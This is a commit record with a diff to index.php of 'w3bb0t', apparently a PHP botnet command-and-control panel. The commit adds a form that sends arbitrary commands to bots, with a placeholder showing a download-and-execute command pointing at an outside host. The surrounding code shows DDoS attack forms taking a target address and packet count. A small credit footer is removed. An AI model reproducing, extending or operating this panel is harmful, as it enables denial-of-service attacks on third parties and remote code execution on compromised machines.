

Before and after one commit to MouseBL0ck/w3bb0t, a PHP site: page / in a window 1280 px wide; the page is wider, and only the part inside the window is pictured. Shown: the part 297-959 px from the top of that part. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; some web fonts are replaced; grey boxes are pictures that could not be loaded.

Commit message:
Fix some bugs

```diff
--- a/index.php
+++ b/index.php
@@ -228,10 +228,12 @@
 
 
 						function Scommand_json_command(){
-							$command = null;
+							if(isset($_POST["cb_command"])){
+								$command = $_POST["cb_command"];
 
-							if(isset($command)){
 								Spend_command("command", $command);
+							}else{
+								return false;
 							}
 
 						}
@@ -239,6 +241,11 @@
 						// Spend_command('ddos', 'Command_Bot.Addos', split(':', $_POST['cb_advddos'])[0], split(':', $_POST['cb_advddos'])[1], $_POST['cb_advddos_threads']);
 						//deixar so um botao de attack e ai se vc preche um form o outro nao e prenchido whatever.
 					?>
+					<h4>Command Control</h4>
+					<form method="post" onsubmit="<?php Scommand_json_command() ?>" name="command_control_form">
+						Command <input type="text" name="cb_command" placeholder="Command_Bot.Dexec{'wwww.websitefake.com', 'True', '/path/instalation/', 'False'}" required><br> <input type="submit" value="Send_Command" name="sub_command" >
+					</form>
+					<br>
 					<h4>SIMPLE DDOS ATTACK</h4>
 					<form method="post" onsubmit="<?php Scommand_json_ddos() ?>" name="cbots_ddos">
 						Target <input type="text" name="cb_ddos" placeholder="Ex: 192.168.0.10:80" required><br> Packages <input type="number" name="cb_ddos_packages" required> <input type="submit" value="Attack" name="sub_ddosattack" >
@@ -318,11 +325,6 @@
 			</div>
 		</div>
 		<div id="botom">
-			<div id="bt_image"><img src="http://i.imgur.com/3NyyE66.png" width=60px height=80px></div>
-			<div id="credit">Scheduled by Mouse_BL0ck.<br>
-				Who does not know how to program in php ?<br>
-				And it's shitting for you...  <br>
-				...yes me.<br>
 		</div>
 	</div>
 </body>
```
